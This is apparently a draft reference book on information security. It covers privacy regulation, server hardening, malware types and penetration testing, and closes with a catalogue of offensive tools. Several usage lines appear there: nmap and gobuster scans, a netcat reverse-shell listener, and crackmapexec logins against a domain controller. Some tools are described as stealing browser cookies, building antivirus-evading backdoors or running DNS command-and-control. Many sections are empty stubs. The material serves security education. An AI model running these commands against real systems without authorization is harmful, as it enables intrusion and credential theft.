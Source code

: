 = Information Security - A Comprehensive Reference
Doc Writer <shahid.sharif@securityprivacyrisk.com>
v1.77, 27Mar2021
:numbered:
:sectnum:
:sectnumlevels: 5
:chapter-label:
:toc: right
:toclevels: 5
:docinfo:
:docinfo1:
:docinfo2:
:description: This document covers all aspects of information security
:keywords: information security, cyber security, it security, data security, compliance, risk management
:imagesdir: images
:stylesheet:
:homepage: https://www.secunoid.com
'''


<<<
== Overview
Everything in this world is centered around information, knowledge, which translates into a generic term _data_.  This data can be about individuals, places, or things.  Regardless of who or what it is about it is important to protect it.

There exists approximately 4,294,967,296 (four billion two hundred ninety-four million nine hundred sixty-seven thousand to hundred ninety-six) IPv4 Addresses.  This pool is 32-bits in size.  Scanning these addresses is an embarrassingly parallel workload and ca be easily distributed over any number of systems.  The term embarrassingly parallel simply means that little or no effort is needed to seperate this problem into a number of parallel tasks.  Password cracking and 3d video rendering are also examples o this type of problem.

=== Non-living Entities
Data about non living entities when modified leads to mis-information and currently in the digital age our ability to provide the authenticity of that data is very difficult.  If the source is trustworthy, then we deem it authentic, currently there are no mechanisms to ensure that the data has not been modified in between from when the trustworthy source released and to the time it got to you.

=== Living Entities
Data about living entities, especially us humans is very valuable.  With the devices we carry, and use in our daily lives, we are constantly producing data, every hour, every second of our lives. 

<<<
== What is information security?
The foundation of information security is based on three pillars also known as the *triad*

. Confidentiality
. Integrity
. Availability

== Why are they important?
What is the the topic of discussion, *Information Security* , there two key words here *information* and *security*, viz a viz securing information.

You have to condition yourself to always think about how are you giong to protect the *information*.  Once you get this concept the rest is easy.


The sections below will build upon them.

=== Confidentiality


<<<
== Privacy
Centralization has very damaging impacts to a users privacy.  Once the user has provided their information to an entity, they are at entities' mercy for data protection.

Certain states want to keep 

Data that is being processed by the solution should care fully considered for:

. Data protection: Based on data classification ensure data is protected in storage and in transit.
. Data retention: Based on regulatory, and industry requirements,  data should be retained for 
. Data access & update: Allow end users ability to access their data and modify it as required.

Governments across the world are responding to the global cyber security crisis by creating new regulations that govern the way companies handle and store valuable consumer data. This includes important information such as personal identifications, banking and credit card numbers, and purchase history.

The European Union, in particular, has been a leader in this field. One of its pioneering efforts is the General Data Protection Regulations (GDPR) what was passed in 2016 and went into effect in Spring 2018. It impacts all companies that do business with European customers, regardless of where the company is located.

The GDPR requires that companies receive consent from consumers before processing data, collect and store data anonymously, and notify customers when their information has potentially been breached. It also requires large businesses to appoint a data privacy protection officer to oversee implementation of the regulations.

Furthermore, while the U.S. federal government has yet to create a set of strong data privacy protections, several states have drawn up their legislation, including Hawaii, Massachusetts, Maryland, Mississippi, New Mexico, and Washington.

However, the most important of these regulations come from California, the largest state in the country by population with nearly 40 million residents. The California Consumer Privacy Act (CCPA) goes into effect on January 1, 2020, and governs the way companies must store and secure data.

CCPA allows consumers to demand crucial information about their personal data held by corporations.

When requested, businesses must inform consumers about the type of personal data they possess, provide them with specific personal information collected in the previous year, and allow customers to request that their information not be shared with third parties. Companies will also have to delete customer data when requested.



<<<
== Data Protection

=== Methodology
. Define what to classify
. Define where to classify
. Define who applies classification
. Define conditions
. Assign labels to users and groups
. Define Access rights
. Create classification policies
. Test Classification policies
. Deploy classification policies
. Monitor and accelerate remediation

=== Know your data
. Where is my sensitive data 
located? 
. What are the risky activities happening in my organization – files shared externally, across 1st and 3rd party apps?
. I need to comply with a new regulation? Where is my PII data located & where is it being generated? 
. How do I control data sprawl and build a strategy for ROT before I bring data
. How do I see activity around classification and labeling across retention and sensitivity labels once they have been used across governance and retention outcomes?
. How do I monitor  ongoing risk around label activity?


=== Password Strength
Brute force password cracking - the importance of using a long password with a mix of uppercase, lowercase and special characters.

Assuming an attacker has a reasonably fast connection and PC, the table is an estimate of the amount of time it would take to generate every possible combination of passwords for a given number of characters. After generating the list it's just a matter of time before the computer runs through all the possibilities – or gets shut down trying.

Pay particular attention to the difference between using only lowercase characters and using all possible characters (uppercase, lowercase, and special characters – like @#$%^&*). Adding just one capital letter and one asterisk would change the processing time for an 8 character password from 2.4 days to 2.1 centuries.

via Dan Williams (https://www.linkedin.com/in/ACoAAACDV6ABaDOtrduFQ5p-c5qgSka1HHTseAY/?lipi=urn%3Ali%3Apage%3Ad_flagship3_feed%3BxdsE5HnqTDulyw2QOn9mCw%3D%3D)

image::PasswordLengthComplexityCrackingTime.jpg[]

<<<
== Information Security 
Information Security as you can infer, all about information protection.  Before the advent of internet information was stored in corporate data centers and they had mechanisms in place to protect the information.  The two main areas that are focused are logical and technical security.

=== Logical Security
Logical controls are about physical aspects of the information protection.  The computer system is housed in a building in a particular area.  Depending on the sensitivity of the information various mechanisms are put in place like:

* Fenced building perimeter
* Gates at the entry and exit points
* Guards manning those gates to ensure that only authorized individuals are allowed through the gates

Now working through the layers just like peeling an onion. You have gone through the first layer the perimeter. Now once in the perimeter it has to be ensured:

* Ensuring protections are in place to prevent vehicles damaging the building via direct impacts
* Split the building into zones with different levels of access levels for the personnel and this can be gated & guarded area
* Ensure computer room is in the middle of the building without any window access
* The computer room can be split into zones depending on the sensitivity of the information
* Access to these zones can be gated and guarded
* Assets within these zone would be placed in cabinets that are again secured via lock and key

=== Technical Security
Now that we have addressed the physical security aspects Once inside the computer room, this is where information security starts to take shape.  All the computers in the computer room will need to be accessed by the users.  People with different levels of access would be physically separated into specific areas.  For instance Super users were in a different physical space than regular users.

With the advent of networking,TCP/IP, and better access control mechanisms in operating systems that requirement to physically segregate users started to diminish.

That requirement to physically segregate users with different levels of access via gates and guards moved to the network and operating system level and this is where information security started to take a foot hold.

Applications that operated on top of the operating system implemented fine grained access mechanisms for the users.

The gates and guards started getting replaced by electronic locks with pin pads and cameras.  Whereby to prove that you were authorized to access an area, you would have the PIN to the door which you would use to get access.  

The PIN pads later got replaced by card access, where you had to scan your card to enter an area.

As you can see a lot of Physical Security controls are also moving into information security space whereby the cameras that are recording and the recording management software, the card access system and access management are all managed by applications that are operating on top of an operating system running on a computer system.

Enter Information Security, which at the most fundamental level is the basis for:

* Information Technology Security
* System Security
**  Network Security
**  Application Security
*** Database Security
* Cyber Security

This book will cover the various aspects of implementing an Information Security Program at an organization of any size. You don't have to be a huge organization to have an information security program.  If you are in business you are collecting, storing, and transmitting all kinds of information and it important that you know how to ensure that information is protected at all times.  If it is not then maybe your business might be at risk.

<<<
== Security Organization
For Security to be taken seriously a security organization is mandatory, while the non operational team would report to the CISO, the operational structure can be based on two models:

. Centralized
. Distributed

In centralized operational model, all aspects of security operations are within the security organization, such as:

. User provisioning/de-provisioning
. Security Information & Event Management (SIEM)
. Security Operations Center
. Incident Response
. Firewall & Network Operations

In a decentralized operations model, the above aspects are managed by different business units with the security organization providing oversight in form of GRC.

=== Security Operations
A robust mechanism must be instituted to ensure all systems are baselined and any deviation from the baseline is reported to the SOC  for action.
All critical components must be monitored at all times, and SIEM   leveraged to discover anomalies and ensure they are addressed in a timely fashion.

=== Security Architecture

=== Security Development

=== Security Strategy

<<<

== Security Policy
Before any solution is implemented, a security policy must be created to ensure all the industry, regulatory,  and other compliance requirements are documented.  This document will provide the security requirements to ensure the deployment is secure. All the requirements should be very high level without delving into implementation details.

<<<
== Security Manual
This document goes into details on the how the security policy requirements must be implemented.  It can be one document, or multiple depending on the size of implementation.

<<<
== Security Standards
Standards are mandatory requirements that must be adhered to. Some of the standards to be considered are:

=== Windows Web Server Hardening

*Services*

* Unnecessary Windows services are disabled.
* Services are running with least-privileged accounts.
* FTP, SMTP, and NNTP services are disabled if they are not required.
* Telnet service is disabled.

*Protocols*

* WebDAV is disabled if not used by the application OR it is secured if it is required.
* TCP/IP stack is hardened
* NetBIOS and SMB are disabled (closes ports 137, 138, 139, and 445).

*Accounts*

* Unused accounts are removed from the server.
* Guest account is disabled.
* IUSR_MACHINE account is disabled if it is not used by the application.
* If your applications require anonymous access, a custom least-privileged anonymous account is created.
* The anonymous account does not have write access to Web content directories and cannot execute command-line tools.
Strong account and password policies are enforced for the server.
* Remote logons are restricted. (The “Access this computer from the network” user-right is removed from the Everyone group.)
* Accounts are not shared among administrators.
* Null sessions (anonymous logons) are disabled.
* Approval is required for account delegation.
* Users and administrators do not share accounts.
* No more than two accounts exist in the Administrators group.
* Administrators are required to log on locally OR the remote administration solution is secure.

*Files and Directories*

* Files and directories are contained on NTFS volumes
Web site content is located on a non-system NTFS volume.
* Log files are located on a non-system NTFS volume and not on the same volume where the Web site content resides.
* The Everyone group is restricted (no access to \WINNT\system32 or Web directories).
* Web site root directory has denied write ACE for anonymous Internet accounts.
* Content directories have deny write ACE for anonymous Internet accounts.
* Remote  administration application is removed
* Resource kit tools, utilities, and SDKs are removed.
* Sample applications are removed

*Shares*

* All unnecessary shares are removed (including default administration shares).
* Access to required shares is restricted (the Everyone group does not have access).
* Administrative shares (C$ and Admin$) are removed if they are not required (Microsoft Management Server (SMS) and Microsoft Operations Manager (MOM) require these shares).

*Ports*

* Internet-facing interfaces are restricted to port 80 (and 443 if SSL is used)
* Intranet traffic is encrypted (for example, with SSL) or restricted if you do not have a secure data center infrastructure.

*Registry*

* Remote registry access is restricted.
* SAM is secured (HKLM\System\CurrentControlSet\Control\LSA\NoLMHash).

*Auditing and Logging*

* Failed logon attempts are audited.
* IIS log files are relocated and secured.
* Log files are configured with an appropriate size depending on the application security requirement.
* Log files are regularly archived and analyzed.
* Access to the Metabase.bin file is audited.
* IIS is configured for W3C Extended log file format auditing.

*Server Certificates*

* Ensure certificate date ranges are valid.
* Only use certificates for their intended purpose (For example, the server certificate is not used for e-mail).
* Ensure the certificate’s public key is valid, all the way to a trusted root authority.
* Confirm that the certificate has not been revoked.

<<<
== Security Guidelines

<<<
== Cryptography

Cryptographic Blinding

<<<
== Digital Identity

Digital Identity is a bridge that connects the physical and the digital world.  You can call them Personna's in a digital world.

Cost of financial intermediation is been going up due to regulation.

According to Europol we are spending about $20b to intercept 0.15% of the fraudulent flows of money.

<<<
== Training & Education

=== Phishing

==== GoPhish
An opensource toolkit to generate phishing campaigns for organizations to test their employee phishing knowledge
Link: https://github.com/gophish/gophish/releases/


<<<
== Application Security
The scope of application security would be the 


=== Code Analysis

==== Microsoft Application Inspector
Microsoft Application Inspector is a software source code analysis tool that helps identify and surface well-known features and other interesting characteristics of source code to aid in determining what the software is or what it does. It has received attention on ZDNet, SecurityWeek, CSOOnline, Linux.com/news, HelpNetSecurity, Twitter and more and was first featured on Microsoft.com.

Application Inspector is different from traditional static analysis tools in that it doesn't attempt to identify "good" or "bad" patterns; it simply reports what it finds against a set of over 400 rule patterns for feature detection including features that impact security such as the use of cryptography and more. This can be extremely helpful in reducing the time needed to determine what Open Source or other components do by examining the source directly rather than trusting to limited documentation or recommendations.

The tool supports scanning various programming languages including C, C++, C#, Java, JavaScript, HTML, Python, Objective-C, Go, Ruby, PowerShell and more and can scan projects with mixed langauge files. It also includes HTML, JSON and text output formats
Link: https://github.com/microsoft/ApplicationInspector

==== PEpper
An open source tool to perform malware static analysis on Portable Executable
Link: https://github.com/Th3Hurrican3/PEpper


=== Key Management

<<<
== System Security
All the servers that the distributed ledger platform runs on must be:

. Hardened
. Monitored for availability
. Intrusion Detection/Intrusion Protection mechanisms deployed to protect from attacks coupled with SIEM for proactive defense.
. Based on the security be in a DMZ 

<<<
== Vulnerability Management Program
Red team-blue team exercises take their name from their military antecedents. The idea is simple: One group of security pros — a red team — attacks something, and an opposing group — the blue team — defends it. Originally, the exercises were used by the military to test force-readiness.

=== Deep vs Dark Web
Dark web is every resource where hackers & criminal underground engage with each other.  Tor is a mechanism that is used as a transport for the dark web.

image::DeepWebDarkWeb.jpeg[]

Source: https://heimdalsecurity.com/blog/deep-web-vs-dark-web-what-is-each/ 


=== Pastebin

=== Taxonomy
Taxonomy is important as it ensures industry standard terms are used when talking about vulnerabilities, threat actors, and reporting.

==== Attacks

image::TypesOfAttacks.jpg[]

==== Malware
A malware is any piece of software that was written with the intent of damaging devices, stealing data, and generally causing a mess. Viruses, Trojans, spyware, and ransomware are among the different kinds of malware.

Malware is often created by teams of hackers: usually, they’re just looking to make money, either by spreading the malware themselves or selling it to the highest bidder on the Dark Web. However, there can be other reasons for creating malware too — it can be used as a tool for protest, a way to test security, or even as weapons of war between governments.

image::TypesOfMalware.jpg[]

* *Adware* Though not always malicious in nature, aggressive advertising software can undermine your security just to serve you ads — which can give other malware an easy way in. Plus, let’s face it: pop-ups are really annoying.

* *Bots* Bots is a soft for roBot. Bots are usually controlled remotely and work as a network.

* *Keylogger* It is one of the most dangerous threats to a PC user's privacy. This type of malware installs itself as a result of clicking while browsing the Internet or downloading software. Keyloggers keep track of all of your keystrokes when you are using your PC and then transfers the information to a remote server. It is capable of recording all of your online conversations, emails, and password logins, as well as creating screenshots of all of your PC activity.

Keyloggers are not always in the form of malware or software; it can also be installed on your computer in the form of hardware through being placed between the plug on your keyboard and the entry port. Some keyloggers are legitimate applications such as those that record an employee's PC activity during work hours. Other keyloggers are in the form of malicious software that is designed to perform criminal activity.

* *Ransomware* This kind of malware typically locks down your computer and your files, and threatens to erase everything unless you pay a ransom.

* *Remote Access*

* *Rootkit*

* *Spyware* No surprise here — spyware is malware designed to spy on you. It hides in the background and takes notes on what you do online, including your passwords, credit card numbers, surfing habits, and more.

* *Trojans* This kind of malware disguises itself as legitimate software, or is hidden in legitimate software that has been tampered with. It tends to act discreetly and create backdoors in your security to let other malware in.

* *Virus* Like their biological namesakes, viruses attach themselves to clean files and infect other clean files. They can spread uncontrollably, damaging a system’s core functionality and deleting or corrupting files. They usually appear as an executable file (.exe)

* *Worm* Worms infect entire networks of devices, either local or across the internet, by using network interfaces. It uses each consecutively infected machine to infect others.

=== Vulnerability Assessment
Vulnerability Assessment is designed to find vulnerabilities and assess to ensure they are not false positives. The next step is to remediate the vulnerability by patching the system, reconfiguring it, or implementing other controls to reduce the risk. 

=== Penetration Testing
Penetration testing, or pen testing for short, is an authorized attack against your computer system to discover and exploit vulnerabilities.  This activity is also known as ethical hacking.  

Penetration testing is a technical control that is implemented to ensure the systems that are currently in production or are going to be production do not have any vulnerabilities that would allow threat vectors to exploit.

The Penetration Testing Execution Standard (PTES) provides the necessary guidelines on how to conduct penetration testing.  More information can be found here: http://www.pentest-standard.org/index.php/Main_Page 

Penetration Testing goes further than vulnerability assessment.  After a vulnerability is identified, the tester attempts to exploit a vulnerability. This can be done numerous ways and, once a vulnerability is exploited, a good tester will not stop. They will continue to find and exploit other vulnerabilities, chaining attacks together, to reach their goal. Each organization is different, so this goal may change, but usually includes access to Personally Identifiable Information (PII), Protected Health Information (PHI), and trade secrets. Sometimes this requires Domain Administrator access; often it does not or Domain Administrator is not enough.

Penetration testing involves following steps:
. Reconnaissance via open source intelligence (OSINT) gathering techniques.  IT does not involve probing any or your devices, but gathering as much information publicly available about your environment using internet sources. 
. Scanning your network to identify active devices
. Fingerprint active devices to identify operating system and applications installed
. Find vulnerabilities for the services running on your systems
. Exploiting those vulnerabilities
. Once the vulnerability has been exploited, further probing the system to seek valuable information such as PII (Personally Identifiable Information) etc.
. Try to further explore other systems on the network and exploit them if possible.
. Produce a report that identifies vulnerabilities, which ones were exploited, what was the outcome of exploitation and suggest high level remediation steps.

There are three approaches to Penetration Tests:
. Black Box: No knowledge of th infrastructure.
. White Box: Full knowledge of the infrastructure.
. Grey Box: Some knowledge of the infrastructure.

Penetration Tests can include following scopes:
. External
. Internal
. Web application
. Wireless
. Cloud
. Social

==== Penetration Testing Methodology

===== Reconnaissance
. Open Source Intelligence Gathering
.. Look for sub-domains:

	sublist3r -d <domainname> -t3 -o <filename.txt>

.. Look for sub-domains, users, etc:

	theharvester -d <domainname> -b all -f <outputfilename>

. Discovery Scan

	nmap -sC -sV -oA foldername/filename IPAddress
	nmap -sC -sV -oA foldername/filename -iL <inputfilename>

. Recon scan all ports
	
	nmap -p- -v -oA foldername/filename-allports IPAddress

. If webservers are found perform web server enumeration:

	dirb -d <domainname> 
	gobuster 

. Take notes of all the findings and also include screen captures.
. 

==== Penetration Testing Tools
Following are some of the Pentesting tools organized by a particular stage in my pentesting methodology.

===== Documentation
==== CherryTree
Chery Tree is a note taking app

===== Open Source Intelligence (OSINT)

====== Search Engines

image::SearchEnginesForSecurityProfessionals.jpg[Best Search Engines for Security Professionals and Pen Testers] 

====== Katana
https://github.com/adnane-X-tebbaa/Katana[Katana-ds] (ds for dork_scanner) is a simple python tool that automates Google Hacking/Dorking and support Tor
It becomes a more powerfull in combination with https://www.exploit-db.com/google-hacking-database[GHDB]

====== Metabigor
Metabigor is Intelligence tool, its goal is to do OSINT tasks and more but without any API key.

Link: https://www.kitploit.com/2020/02/metabigor-intelligence-tool-but-without.html

====== Maltego

====== Maryam
OWASP Maryam is an Open-source intelligence(OSINT) and Web-based Footprinting modular framework BASED on The Recon-ng and written in Python.
Link: https://www.owasp.org/index.php/OWASP_Maryam_Project 

====== OSI.IG
https://github.com/th3unkn0n/osi.ig [Instagram OSINT Tool] gets a range of information from an Instagram account that you normally wouldn't be able to get from just looking at their profile

The information includes:

* [ profile ] : user id, followers / following, number of uploads, profile img URL, business enum, external URL, joined Recently, etc
* [ tags & mentions ] : most used hashtags and mentioned accounts
* [ email ] : if any email is used any where it'll be displayed
* [ posts ] : accessability caption, location, timestamp, caption, picture url, etc

====== Recon_Spider
https://github.com/Aravindha1234u/Recon_Spider[Recon_Spider] scrapes social media account details from Instagram, Facebook and Twitter. It can find details about Phone number, Email data Breach.
Domain module has various scans for domain check for vulnerability and spider crawlers
Metadata Analyser
Reverse Image Search
IP Heatmap generator
Mac Address finder of manufacturer
IP2Proxy checks whether provided ip uses any kind of Proxy/VPN if any then check for DNSLeaks
Torrent Download History
Tool is currently available only in Command Line Interface (CLI)

Its public to use with your own api keys

====== Shodan
. Shodan is a search engine for devices connected to internet

===== Footprinting

====== Bloodhound
https://github.com/BloodHoundAD/Bloodhound/wiki[BloodHound] is a single page Javascript web application, built on top of Linkurious, compiled with Electron, with a Neo4j database fed by a PowerShell/C# ingestor.

BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attacks can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.

BloodHound is developed by @_wald0, @CptJesus, and @harmj0y.


====== Masscan
https://github.com/robertdavidgraham/masscan[MASSCAN] is an Internet-scale port scanner. It can scan the entire Internet in under 6 minutes, transmitting 10 million packets per second, from a single machine.

It's input/output is similar to nmap, the most famous port scanner. When in doubt, try one of those features.

Internally, it uses asynchronous transmissions, similar to port scanners like scanrand, unicornscan, and ZMap. It's more flexible, allowing arbitrary port and address ranges.

NOTE: masscan uses a its own custom TCP/IP stack. Anything other than simple port scans may cause conflict with the local TCP/IP stack. This means you need to either the --src-ip option to run from a different IP address, or use --src-port to configure which source ports masscan uses, then also configure the internal firewall (like pf or iptables) to firewall those ports from the rest of the operating system.

====== NESSUS

http://www.hackandtinker.net/2013/10/16/how-to-install-setup-and-use-nessus-on-kali/[Install Instructions]

====== NMAP

====== DIRB

DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the response.

DIRB comes with a set of pre-configured attack wordlists for easy usage but you can use your custom wordlists. Also DIRB sometimes can be used as a classic CGI scanner, but remember is a content scanner not a vulnerability scanner.

DIRB main purpose is to help in professional web application auditing. Specially in security related testing. It covers some holes not covered by classic web vulnerability scanners. DIRB looks for specific web objects that other generic CGI scanners can’t look for. It doesn’t search vulnerabilities nor does it look for web contents that can be vulnerable.

Source: http://dirb.sourceforge.net/about.html
DIRB Homepage | Kali DIRB Repo

Author: The Dark Raver
License: GPLv2

https://tools.kali.org/web-applications/dirb 

====== Dirbuster

===== Reconnaissance
Combining the information gathered from OSINT and Footprinting activities.  This leads to finding vulnerabilities, exploiting them, lateral movement, persistence.

====== Admin-scanner
https://github.com/alienwhatever/Admin-Scanner[Admin-Scanner] - This Tool Is Design To Find Admin Panel Of Any Website By Using Custom Wordlist Or Default Wordlist Easily

===== Payload Delivery



====== Cryptcat
https://tools.kali.org/maintaining-access/cryptcat[CryptCat] is a simple Unix utility which reads and writes data across network connections, using TCP or UDP protocol while encrypting the data being transmitted. It is designed to be a reliable “back-end” tool that can be used directly or easily driven by other programs and scripts. At the same time, it is a feature-rich network debugging and exploration tool, since it can create almost any kind of connection you would need and has several interesting built-in capabilities.

===== Netcat

nc -lvnp 9001

===== Exploitation

====== Arpspoof

====== Burp Suite
Burp Suite is a web application testing tool

Use vulnerable web application from the OWASP site: https://www.owasp.org/index.php/OWASP_Vulnerable_Web_Applications_Directory_Project/Pages/Offline  

====== Cookie Crimes

If you steal someone’s Chrome cookies, you can log in to their accounts on every website they’re logged in to.

Normally you need the user’s password to do it, but I found a way to do it without the password. You just need to be able to execute code on their computer. It works by using Chrome’s Remote Debugging Protocol.

Link: https://github.com/defaultnamehere/cookie_crimes

===== Post-Exploitation

====== Crackmapexec
CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks. Built with stealth in mind, CME follows the concept of "Living off the Land": abusing built-in Active Directory features/protocols to achieve it's functionality and allowing it to evade most endpoint protection/IDS/IPS solutions.

Link: https://github.com/byt3bl33d3r/CrackMapExec

Usage:
	crackmapexec smb <IP Of Domain Controller> -u <username> -p '<password>'

====== PoshC2
https://www.hackingarticles.in/command-control-poshc2/[PoshC2] is an open-source remote administration and post-exploitation framework that is publicly available on GitHub. The server-side components of the tool are primarily written in Python, while the implants are written in PowerShell. Although PoshC2 primarily focuses on Windows implantation, it does contain a basic Python dropper for Linux/macOS.


===== Lateral Movement

===== Persistence

===== Chisel





===== DNSCAT
DNScat is such praised tool because it can create a command and control tunnel over the DNS protocol which lets an attacker work in stealth mode. You can access any data along with uploading and downloading files and to get a shell. For this tool to work over 53 port, you don’t need to have authoritative access to DNS server, you can just simply establish your connection over port 53 and it will be faster and it will still be sensed as usual traffic. But it makes its presence well known in the packet log.

DNScat is made of two components i.e. a server and a client. To know the working of dnscat, it is important to understand both of these components.

The client is intended to be kept running on a target machine. It’s written in C and has the least amount of the prerequisites. When you run the client, you regularly indicate a domain name. All packets will be sent to the local DNS server, which is then directed to the legitimate DNS server for that domain (which you, apparently, have control of).

The server is intended to be kept running on a definitive DNS server. It’s developed in ruby and relies upon a few distinct gems. When you run it, much like the client, you indicate from which domain(s) it listens to over 53. When it gets traffic for one of those domains, it endeavours to set up a legitimate association. It gets other traffic it will automatically disregard it but, however, it can also advance it upstream.
Link: https://www.hackingarticles.in/dnscat2-command-and-control-over-the-dns/?

===== DNSSPOOF

===== Empire
Empire 3.0 is a post-exploitation framework that includes a pure-PowerShell 2.0 Windows agent, and compatibility with Python 2.x/3.x Linux/OS X agents. It is the merger of the previous PowerShell Empire and Python EmPyre projects. The framework offers cryptologically-secure communications and a flexible architecture. On the PowerShell side, Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from key loggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework. PowerShell Empire premiered at BSidesLV in 2015 and Python EmPyre premeiered at HackMiami 2016. BC-Security presented updates to further evade Microsoft Antimalware Scan Interface (AMSI) and JA3/S signatures at DEF CON 27.

Empire relies heavily on the work from several other projects for its underlying functionality. We have tried to call out a few of those people we've interacted with heavily here and have included author/reference link information in the source of each Empire module as appropriate. If we have failed to properly cite existing or prior work, please let us know at Empire@BC-Security.org.

Empire is developed by @harmj0y, @sixdub, @enigma0x3, @rvrsh3ll, @killswitch_gui, @xorrior, and @bcsecurity1. While the main fork for Empire is no longer maintained, this fork is maintained by BC-Security and will continue to receive periodic updates.

https://github.com/BC-SECURITY/Empire/ 

===== Ettercap

===== Exiftool
Shows exif data about a file.   To ensure you get the correct date time meta data, always use wget.

===== Eyewitness

===== Evilarc
evilarc.py is an archiving tool that allows for folder manipulation.

===== FatRat
TheFatRat by Edo Maland, is a massive exploiting tool which compiles a malware with famous payloads, generate backdoor that allows easy post exploitation attacks such as browser attacks etc.. and then the compiled maware can be executed on Linux , Windows , Mac and Android. TheFatRat Provides An Easy way to create Backdoors and Payload which can bypass most anti-virus.

Link: https://www.blackhatethicalhacking.com/tools/thefatrat/


===== Ghidra
Ghidra is a software reverse engineering (SRE) framework created and maintained by the National Security Agency Research Directorate. This framework includes a suite of full-featured, high-end software analysis tools that enable users to analyze compiled code on a variety of platforms including Windows, macOS, and Linux. Capabilities include disassembly, assembly, decompilation, graphing, and scripting, along with hundreds of other features. Ghidra supports a wide variety of processor instruction sets and executable formats and can be run in both user-interactive and automated modes. Users may also develop their own Ghidra plug-in components and/or scripts using Java or Python.
Link: https://ghidra-sre.org/

===== Gitleaks

Link: https://github.com/zricethezav/gitleaks

===== Gobuster

Gobuster is a tool used to brute-force:

* URIs (directories and files) in web sites.
* DNS subdomains (with wildcard support).

Install

	sudo apt-get install gobuster

Usage

Scan a website (-u http://192.168.0.155/) for directories using a wordlist (-w /usr/share/wordlists/dirb/common.txt) and print the full URLs of discovered paths (-e):

	*Using dirb word lists* gobuster dir -u http://192.168.0.155/ -w /usr/share/wordlists/dirb/common.txt -o filename.txt
	*Using dirbuster word lists* gobuster dir -u http://192.168.0.155/ -w /usr/share/wordlists/dirbuster/directgory-list-2.3-medium.txt -o filename.txt
	*Using a cookie* gobuster dir -u http://192.168.0.155/ -w /usr/share/wordlists/dirbuster/directgory-list-2.3-medium.txt -o filename.txt -c 'cookievariable=valie'


[horizontal]
Source:: https://github.com/OJ/gobuster
Author:: OJ Reeves
License:: Apache-2.0
